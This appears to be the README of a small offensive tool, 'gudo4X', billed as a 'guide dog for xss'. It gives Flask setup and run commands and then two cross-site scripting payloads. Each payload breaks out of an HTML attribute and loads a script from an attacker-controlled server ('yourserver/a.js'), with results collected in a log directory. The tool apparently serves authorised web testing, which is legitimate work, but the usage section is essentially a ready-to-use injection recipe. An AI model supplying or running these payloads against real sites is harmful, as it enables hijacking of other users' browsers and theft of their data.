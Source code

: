 ## gudo4X - guide dog for xss

### usage
* install flask

```bash
sudo apt update && sudo apt install -y python3-flask
```

* (for https) put cert files in project directory (cert.pem, key.pem)

* run:

```bash
sudo run.sh
```

* send the script in a xss:
```html
'"><script/src=https://yourserver/a.js></script>
```

```html
'"><svg/onload=body.appendChild(document.createElement`script`).src="https://yourserver/a.js">
```

* see the log directory
